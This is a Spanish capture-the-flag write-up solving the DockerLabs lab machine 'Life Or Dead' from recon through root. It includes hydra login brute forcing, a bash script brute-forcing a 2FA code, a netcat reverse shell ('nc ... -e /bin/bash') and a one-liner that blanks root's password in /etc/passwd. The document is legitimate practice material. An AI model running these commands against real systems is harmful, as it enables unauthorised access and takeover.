

Máquina **Life Or Dead** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil


# Reconocimiento

Comenzamos con un escaneo de `nmap` para descubrir los puertos abiertos de la máquina:

```css
nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 172.17.0.2
```

```ruby
# Nmap 7.95 scan initiated Sun Feb  2 18:55:59 2025 as: nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000011s latency).
Scanned at 2025-02-02 18:55:59 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:c3:e7:47:85:79:ce:e9:e6:1f:dd:43:37:9b:aa:a5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD3OXUTsS/7EOODKcuxhghzwJQOp/JfH4v7ihKhkH4EMDtOCvyHvi1nO3HSZtsR3r5fuzrox1LzFwlu8mas25QU=
|   256 4d:80:5f:fa:24:fa:c3:70:fc:bd:39:d8:e7:5b:c7:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN1X+NtUxcqV44+PcJo1OeyS+fWcgrxKcFUyHsu5JdsA
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  2 18:56:07 2025 -- 1 IP address (1 host up) scanned in 8.53 seconds
```

vemos 2 puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 80: Apache httpd 2.4.58`

y vemos que es una máquina ubuntu.

#### Puerto 80

Vemos la página default de apache pero si revisamos el código fuente podemos ver 2 cosas interesantes:


como vemos tenemos un texto en base64 y un dominio. El texto en base64 dice "PASSWORDADMINSUPERSECRET", por lo que tenemos unas posibles credenciales para un futuro. También, debemos agregar el dominio que encontramos al archivo `/etc/hosts` y entramos al dominio desde el navegador.

#### Dominio

En el dominio podemos observar un panel de login:


Como anteriormente encontramos unas credenciales, probamos a tirar un ataque de `hydra` para buscar el usuario:

```css
hydra -L top-usernames-shortlist.txt -p PASSWORDADMINSUPERSECRET lifeordead.dl http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid credentials."
```


como vemos en el resultado, tenemos las credenciales `admin:PASSWORDADMINSUPERSECRET`.

### Brute force 2fa

Al iniciar sesión, podemos ver un `2fa`:


el cual nos pide un código de 4 dígitos. Al enviar un código podemos ver en las devtools que hace la siguiente solicitud POST:

```css
-----------------------------231428419341048985063330404590
Content-Disposition: form-data; name="code"

1111
-----------------------------231428419341048985063330404590--
```

además de que lo hace al archivo `pageadmincodeloginvalidation.php`. Viendo esto, podemos hacer 2 cosas para obtener el código correcto:

• Usar burpsuite: Es un poco lento si tienes la versión community.

• Crear un script en python o en bash: Es mucho mas rápido en casos como este.

### Bash scripting

En mi caso yo decidí crear un script en bash el cual genera una lista de números y luego prueba de 1 en uno para obtener el correcto:

```bash
#!/bin/bash


echo -e "Verificando que exista el binario seq..."
if ! command -v seq > /dev/null &>/dev/null; then
  echo -e "El binario seq no existe, instalelo y vuelva a intentar"
fi

ls number_wordlist > /dev/null &>/dev/null
if [ $? != "0" ]; then
  echo -e "La wordlist no existe, procediendo con la creación"
  seq -f "%04g" 1 9999 > number_wordlist
else
  echo -e "La wordlist existe... continuando"
fi


salir(){
  echo -e "Saliendo..."
  rm ./number_wordlist
  exit 0
}


wordlist="./number_wordlist"
intentos=0
lineas=$(wc -l number_wordlist | awk '{print $1}')


while read -r number; do
  if [ $(curl -X POST "http://lifeordead.dl/pageadmincodeloginvalidation.php" -d "code=$number" -s /dev/null | grep -c failed) != 1 ]; then
    echo -e "Código encontrado: $number"
    rm ./number_wordlist
    exit 0
  fi
  intentos=$(($intentos+1))
  echo -ne "$intentos/$lineas\r"
done < "$wordlist"
```

lo ejecutamos y vemos lo siguiente:


ya tenemos el código, pero antes de continuar revisamos el código fuente de la página y vemos un comentario que puede ser un usuario:

```html
<!--dimer-->
```

Luego de poner el código, obtenemos un hash:

```css
bbb2c5e63d2ef893106fdd0d797aa97a
```

# Intrusión

Pasamos el hash por [CrackStation](https://crackstation.net/) y nos dice que la contraseña es "supersecretpassword" pero si intentamos conectarnos por ssh con el usuario "dimer" no nos funciona, ya que parece que tenemos que poner el hash directamente y podemos entrar xD.

# Escalada de privilegios

### Dimer

Si ejecutamos un `sudo -l` veremos que podemos ejecutar un script en bash como el usuario "bilter", pero este parece estar "ofuscado", de todas maneras al ser bash, simplemente creamos el mismo script pero lo modificamos un poco para que nos diga que comando se ejecuta al final:

```bash
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d


echo "$e $g $h $f /bin/bash &>/dev/null &"
```

al ejecutarlo vemos que el comando final es el siguiente:

```css
nc 172.17.0.186 6068 -e /bin/bash &>/dev/null &
```

Sabiendo esto, tendremos que cambiar la ip de la red docker0 en nuestro host para recibir la reverse shell. Para esto debemos hacer lo siguiente:

• Primero ejecutamos este oneliner para que cada 15 segundos se ejecute como el usuario bilter el script:

```css
while true; do sudo -u bilter /opt/life.sh; sleep 1; done
```

• Segundo cambiamos la ip de nuestro host:

```css
sudo ip address del 172.17.0.1/16 dev docker0
sudo ip address add 172.17.0.186/16 dev docker0
```

• Finalmente escuchamos en el puerto 6068 y nos llega la shell:

```css
❯ nc -nlvp 6068
Listening on 0.0.0.0 6068
Connection received on 172.17.0.2 33914
id
uid=1000(bilter) gid=1000(bilter) groups=1000(bilter),100(users)

```

### Bilter

Nuevamente si ejecutamos `sudo -l`, veremos que podemos ejecutar otra vez un script de bash, el problema es que este al ejecutarlo no nos dice nada mas que un numero:

```css
161
bilter@dockerlabs:/home/dimer$ 
```

#### Nmap UDP

Luego de probar demasiadas cosas, se me ocurre realizar un escaneo de nmap por udp y veo lo siguiente:

```css
sudo nmap -sU -p161 172.17.0.2 -sV -sC
```

```ruby
# Nmap 7.95 scan initiated Sun Feb  2 21:36:48 2025 as: nmap -sU -p161 -sV -sC -oN a 172.17.0.2
Nmap scan report for lifeordead.dl (172.17.0.2)
Host is up (0.000090s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 7f3cbe5245328e6700000000
|   snmpEngineBoots: 12
|_  snmpEngineTime: 5m39s
| snmp-sysdescr: Linux dockerlabs 6.6.69-1-lts #1 SMP PREEMPT_DYNAMIC Thu, 02 Jan 2025 22:00:49 +0000 x86_64
|_  System uptime: 5m39.08s (33908 timeticks)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: dockerlabs

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  2 21:36:49 2025 -- 1 IP address (1 host up) scanned in 0.81 seconds
```

viendo que tenemos el puerto abierto y que es el servicio `snmp`, pruebo a usar `snmpwalk` para inspeccionar el puerto:

```css
snmpwalk -v 1 -c public 172.17.0.2
```

en el resultado podemos ver una linea bastante interesante:

```css
SNMPv2-MIB::sysLocation.0 = STRING: This port must be disabled aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw=
```

la cual está en base64 y al pasarla a texto vemos lo siguiente: "imposiblepassworduserfinal"

ejecutamos `su purter` y ponemos su contraseña.

### Purter

Si ejecutamos `sudo -l` veremos que podemos ejecutar un script de bash que se encuentra en nuestra home, por lo que lo borramos y ponemos lo que queramos para escalar a root, en mi caso hice este oneliner:

```css
cd && echo y | rm -r .script.sh && echo '#!/bin/bash' > .script.sh && echo 'sed "s/root:x:/root::/g" -i /etc/passwd' >> .script.sh && chmod +x .script.sh && sudo /home/purter/.script.sh && su
```

### Root



Para restablecer la red docker en nuestro host debemos ejecutar lo siguiente:

```css
sudo ip address del 172.17.0.186/16 dev docker0
sudo ip address add 172.17.0.1/16 dev docker0
```

Gracias por leer ;)